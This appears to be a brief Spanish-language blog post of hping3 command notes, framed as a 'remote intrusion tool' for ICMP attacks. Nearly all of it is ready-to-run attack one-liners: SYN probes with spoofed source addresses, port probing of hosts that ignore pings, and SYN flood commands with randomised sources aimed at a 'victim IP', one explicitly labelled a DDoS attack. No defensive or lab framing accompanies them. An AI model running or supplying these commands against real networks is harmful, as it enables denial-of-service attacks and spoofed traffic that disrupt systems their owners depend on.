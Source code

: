 ```yaml
---
layout: post
title: "hping"
date: 2013-12-15 18:15
comments: true
categories: 
---
```

Herramienta de intrusión remota (ataque ICMP)

>~# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>~# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>~# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>~# hping3 -S -a ip_ficticia -p 80 -k ip_atacada

>~# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada

>~# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>~# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

